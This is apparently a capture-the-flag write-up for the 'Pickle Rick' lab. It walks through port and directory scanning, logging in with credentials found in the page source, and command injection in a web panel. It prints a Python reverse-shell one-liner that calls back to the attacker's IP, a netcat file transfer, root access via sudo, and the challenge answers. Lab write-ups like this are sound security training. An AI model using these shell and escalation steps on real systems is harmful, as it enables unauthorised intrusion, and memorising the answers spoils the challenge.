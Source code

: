 # Pickle Rick

_This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle._

_Attack machine = 10.10.9.177_

## Reconnaisance

- Run a nmap scan to check for open ports and service information

`nmap -sC -sV oN nmap-scan 10.10.9.177`

- Run a gobuster scan to find web pages

`gobuster dir -u http://10.10.9.177 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py`

- Inspecting webpage shows a comment __Note to self, remember username! Username: R1ckRul3s__
- Found a robot.txt page and found __Wubbalubbadubdub__
- Found a login.php page. Used __R1ckRul3s__ and __Wubbalubbadubdub__ to login

- Looks like multiple commands can be executed on this page, but the cat command has been blocked so i can't read files with it. 

- Inspecting the page and found some base64 __Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==__
- Found that the `nl` command works and lets me read the files with line count

`nl Sup3rS3cretPickl3Ingred.txt`

## Exploit
     
- Work to get a reverse shell, can't run netcat, so tried a python shell using a one-liner from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) (make sure to use the correct python version and IP address/Port information)

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.109.202",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Setup a netcat listener on your machine and then execute the above command on the page.

A shell should appear
```console
└─$ nc -lnvp 9999                                                                                                1 ⨯
listening on [any] 9999 ...
connect to [10.18.109.202] from (UNKNOWN) [10.10.9.177] 36460
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
- Search for the second ingredient
```console
$ cd /home
$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Feb 10  2019 .
drwxr-xr-x 23 root   root   4096 Oct 16 12:41 ..
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  4 ubuntu ubuntu 4096 Feb 10  2019 ubuntu
$ cd rick
$ ls -la 	
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
$ nl 'second ingredients'
     1	1 jerry tear
```

## Privilege Escalation

- Use netcat to transfer linpeas over to run enumerations 

target machine - `nc -lp 1234 > lin`
my machine - `nc -w 3 10.10.9.177 1234 < linpeas.sh`

- Running linpeas we find that the user can run sudo on everything so using the following command i can escalate as root

`sudo bash`

- As root access root directory
```console
cd root
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```

What is the first ingredient Rick needs?
**mr. meeseek hair**
Whats the second ingredient Rick needs?
**1 jerry tear**
Whats the final ingredient Rick needs?
**fleeb juice**